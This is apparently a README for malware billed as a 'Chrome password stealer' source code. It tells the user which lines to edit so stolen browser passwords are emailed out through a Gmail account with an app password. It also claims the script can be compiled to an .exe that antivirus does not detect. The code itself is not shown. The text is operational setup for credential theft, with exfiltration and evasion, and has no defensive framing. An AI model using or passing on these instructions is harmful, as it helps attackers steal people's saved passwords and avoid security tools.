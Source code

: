 Chrome password stealer source code.

You need to change lines 74, 103 and 104.
line | code | 
--- | --- 
74 | `server.login(sender, 'Gmail app password')` | 
103 | `sender = 'example@gmail.com'` |
104 | `receiver = 'example@gmail.com'` | 


if you have not created a chrome app password, you can create one [here](https://myaccount.google.com/apppasswords). (line 74)

*(you can convert the python code to .exe, it is not detected by antivirus because it makes a backup.)*
